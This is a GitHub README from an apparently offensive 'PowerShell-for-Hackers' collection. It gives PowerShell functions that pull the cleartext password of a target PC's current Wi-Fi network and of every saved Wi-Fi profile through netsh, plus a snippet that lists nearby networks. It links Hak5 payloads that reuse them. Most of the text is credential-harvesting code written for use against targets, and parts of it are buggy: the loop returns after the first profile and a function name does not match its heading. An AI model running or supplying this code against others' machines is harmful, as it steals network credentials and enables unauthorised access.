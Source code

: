![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Wifi-Info

## Description

These functions will help you enumerate your targets wifi, and the wifi nearby

## The Function

### [Nearby Networks] 

This quick snippet will get you the wifi connections visible from your targets PC 

```
$NearbyNetworks = (netsh wlan show networks mode=Bssid | ?{$_ -like "SSID*" -or $_ -like "*Authentication*" -or $_ -like "*Encryption*"}).trim()
```

### [Get-CurrentNetwork] 

This first function will get you the SSID and Password the target PC is currently connected to and save it to the variable $CurrentNetwork

```
function Get-CurrentNetwork {

$pro = netsh wlan show interface | Select-String -Pattern ' SSID '; $pro = [string]$pro;$pos = $pro.IndexOf(':');$pro = $pro.Substring($pos+2).Trim()

$pass = netsh wlan show profile $pro key=clear | Select-String -Pattern 'Key Content'; $pass = [string]$pass;$passPOS = $pass.IndexOf(':');$pass = $pass.Substring($passPOS+2).Trim()

return "$pro	:	$pass"

} 

$CurrentNetwork = Get-CurrentNetwork

```

### [Get-AllNetworks] 

This function will get you a list of all the wifi networks your target has joined and their passwords and save it to the variable $Networks

```
Function Get-Networks {
# Get Network Interfaces
$Network = Get-WmiObject Win32_NetworkAdapterConfiguration | where { $_.MACAddress -notlike $null }  | select Index, Description, IPAddress, DefaultIPGateway, MACAddress | Format-Table Index, Description, IPAddress, DefaultIPGateway, MACAddress 

# Get Wifi SSIDs and Passwords	
$WLANProfileNames =@()

#Get all the WLAN profile names
$Output = netsh.exe wlan show profiles | Select-String -pattern " : "

#Trim the output to receive only the name
Foreach($WLANProfileName in $Output){
    $WLANProfileNames += (($WLANProfileName -split ":")[1]).Trim()
}
$WLANProfileObjects =@()

#Bind the WLAN profile names and also the password to a custom object
Foreach($WLANProfileName in $WLANProfileNames){

    #get the output for the specified profile name and trim the output to receive the password if there is no password it will inform the user
    try{
        $WLANProfilePassword = (((netsh.exe wlan show profiles name="$WLANProfileName" key=clear | select-string -Pattern "Key Content") -split ":")[1]).Trim()
    }Catch{
        $WLANProfilePassword = "The password is not stored in this profile"
    }

    #Build the object and add this to an array
    $WLANProfileObject = New-Object PSCustomobject 
    $WLANProfileObject | Add-Member -Type NoteProperty -Name "ProfileName" -Value $WLANProfileName
    $WLANProfileObject | Add-Member -Type NoteProperty -Name "ProfilePassword" -Value $WLANProfilePassword
    $WLANProfileObjects += $WLANProfileObject
    Remove-Variable WLANProfileObject
    return $WLANProfileObjects
}
}

$Networks = Get-Networks
```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 
[//]: # (Examples of scripts that have used your function) 
Listed below are payloads that have used one of these functions:

[Acid Burn](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-AcidBurn)

[ADV-Recon](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ADV-Recon)


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>

  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>

  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>

  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>

  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
